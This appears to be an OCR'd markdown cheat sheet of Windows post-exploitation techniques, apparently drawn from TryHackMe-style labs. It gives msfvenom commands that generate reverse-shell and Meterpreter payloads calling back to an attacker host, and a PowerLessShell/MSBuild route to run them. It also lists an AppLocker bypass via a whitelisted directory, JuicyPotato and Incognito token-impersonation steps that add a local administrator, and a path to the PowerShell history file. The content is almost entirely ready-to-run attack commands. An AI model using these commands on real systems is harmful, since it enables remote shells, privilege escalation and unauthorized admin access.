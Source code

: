 - **WSL**
  - bash.exe -c "c:/path/to/file"

- **Shortcuts**
  - Target: rundll32, Powershell, Regsvr32.
  - [Atomic-red-team-T1023](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md)

- **No Powershell**
  - [PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git)
  - msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
  - python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
  - c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj

## Bypass Applocker
- Applocker: restrict programs from being executed
- Windows 7 default
  - whitelisted directory
    - C:\Windows\System32\spool\drivers\color
- Windows history:
  - %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

### Privilege Escalation
- Check privileges
	- [Privileges options](https://hackersploit.org/windows-privilege-escalation-fundamentals/)
- Check potatos
	- [Potato family](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)
	- [Incognito.exe](https://medium.com/r3d-buck3t/domain-escalation-with-token-impersonation-bc577db55a0f)

- **JUICYPOTATO**
  - extract CLSID
  - .\JuicyPotato.exe -p SCRIPT.bat -l 1234 -t * -c [{CLSID}](https://ohpe.it/juicy-potato/CLSID/)
  - msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.87 LPORT=1234 -f exe -o privesc.exe

#### Incognito
[Tips](https://medium.com/r3d-buck3t/domain-escalation-with-token-impersonation-bc577db55a0f)

- .\incognito.exe execute -c "domain\user" C:\Windows\system32\cmd.exe
- .\incognito.exe list_tokens -u

- Create user with admin:
  
```
.\incognito add_user NAME PASS
.\incognito add_localgroup_user Administrators NAME
```

#### Potato family
- [More info](https://0xaniket.medium.com/tryhackme-retro-walkthrough-b1197c3c05fb)
- Privilege **SeImpersonatePrivilege** and/or **SeAssignPrimaryTokenPrivilege**
- alwaysinstallelevated
- JuicyPotato
	- [releases](https://github.com/ohpe/juicy-potato/releases)
	- juicypotato.exe -l PORT -p REVSHELL.exe -t * -c {[FIND_CLSID](https://ohpe.it/juicy-potato/CLSID/)]}
